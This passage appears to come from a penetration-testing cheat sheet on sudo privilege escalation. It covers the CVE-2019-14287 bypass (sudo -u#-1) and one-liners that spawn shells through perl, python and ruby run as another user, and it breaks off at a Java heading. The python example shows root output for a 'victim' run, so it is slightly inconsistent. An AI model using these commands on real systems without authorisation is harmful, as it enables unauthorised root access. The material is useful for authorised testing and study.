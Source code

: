 You can find presentation slides about this tool at: [https://github.com/nongiach/sudo\_inject/blob/master/slides\_breizh\_2019.pdf](https://github.com/nongiach/sudo\_inject/blob/master/slides\_breizh\_2019.pdf)

### sudo version < 1.8.28 (CVE-2019-14287)

An issue in `sudo` (version 1.8.28 and earlier), which occurs when an entry is inserted into the sudoers file with permissions = (ALL, !root):

```
zweilos kali = (ALL, !root) /usr/bin/chmod
```

This entry normally would mean that user `zweilos` is allowed to run `chmod` as any user except the root user, however, an error in these versions of `sudo` allows an attacker to run the specified programs in the `/etc/sodoers` file as root by telling `sudo` to act as user ID number `-1` (or its unsigned number `4294967295`),which is then interpreted as user ID `0` or `root`. &#x20;

```
sudo -u#-1 id
0
sudo -u#4294967295 id
0
```

### Using scripting languages

#### If you have privilege to run PERL as other user

```bash
sudo -u victim perl -e 'system("/bin/bash")'
```

#### If you have privilege to run PYTHON as other user

```python
sudo -u victim python

>>> from subprocess import call
>>> call('id')
uid=0(root) gid=0(root) groups=0(root)
>>> call('/bin/bash')
```

#### If you have privilege to run RUBY as other user

```ruby
sudo -u victim /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'

irb(main):005:0> `id` #(test to see user context)
=> "uid=1001(victim) gid=1001(victim) groups=1001(victim)\n"
irb(main):005:0> `"/bin/bash"`
```

#### If you have privilege to run JAVA as other user
